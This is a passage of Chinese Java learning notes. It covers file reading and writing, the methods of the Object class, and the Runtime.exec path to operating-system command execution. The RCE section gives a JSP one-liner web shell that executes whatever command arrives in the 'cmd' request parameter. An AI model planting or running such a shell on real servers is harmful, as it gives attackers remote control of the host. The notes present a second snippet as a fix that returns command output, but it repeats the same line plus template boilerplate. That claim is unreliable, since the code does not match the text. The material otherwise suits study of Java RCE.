 ```java
            // 读取文件
            BufferedReader reader = new BufferedReader(new FileReader("input.txt"));
            String line = reader.readLine();
            while (line != null) {
                System.out.println(line);
                line = reader.readLine();
            }
            reader.close();

            // 写入文件
            FileWriter writer = new FileWriter("output.txt");
            writer.write("Hello, IO!");
            writer.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
<a name="XMDlG"></a>
### Object
`Object` 类是 Java 中所有类的根类，每个类都是 `Object` 类的子类；它定义了一些基本的方法，如 `toString`、`equals` 和 `hashCode`；在 Java 中，所有对象都可以被赋值给 `Object` 类型的变量。<br />`toString()`方法<br />用于返回对象的字符串表示；默认情况下，`toString()`返回类名后跟对象的哈希码；<br />`equals(Object obj)`方法<br />用于比较两个对象是否相等；默认实现是比较对象的引用地址，但通常在子类中会被重写以根据业务逻辑判断对象是否相等；<br />`hashCode()`方法<br />返回对象的哈希码；哈希码用于在哈希表等数据结构中快速查找对象；<br />`getClass()`方法<br />返回对象的运行时类，即对象所属的类；<br />`notify()`、`notifyAll()`和`wait()`方法<br />用于线程间的协调和通信；这些方法通常与多线程编程有关，用于实现线程的等待和唤醒机制；<br />`finalize()`方法<br />在垃圾回收器清理对象之前调用；子类可以重写此方法以执行资源清理等操作；<br />`clone()`方法<br />创建并返回一个对象的副本；默认情况下，`clone()`方法执行的是浅拷贝，但可以在子类中重写以实现深拷贝；
<a name="hJUf9"></a>
## Java RCE学习
执行过程：

1. Runtime.exec(xxx)
2. java.lang.ProcessBuilder.start()
3. new java.lang.UNIXProcess(xxx)
4. UNIXProcess构造方法中调用了forkAndExec(xxx) native方法。
5. forkAndExec调用操作系统级别fork->exec(*nix)/CreateProcess(Windows)执行命令并返回fork/CreateProcess的PID。

Runtime和ProcessBuilder并不是程序的最终执行点
<a name="iQwJx"></a>
### Runtime类源码命令执行
通常会使用java.lang.Runtime类的exec方法来执行本地系统命令
<a name="ZWKjr"></a>
#### 源码：
![图片.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1712403405392-979d220a-11d7-4c39-ac5c-6c1c2cf5015d.png#averageHue=%23f6f6f6&clientId=u04af8e3e-66d3-4&from=paste&height=588&id=B9QWD&originHeight=860&originWidth=1312&originalType=binary&ratio=1&rotation=0&showTitle=false&size=158603&status=done&style=none&taskId=u9eb6a0ed-ddc0-4603-8563-41ba3f6e5a4&title=&width=897)
<a name="DMlZo"></a>
#### RCE测试：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```
以上代码只能执行没有回显经过更改：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/5
  Time: 6:21 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
```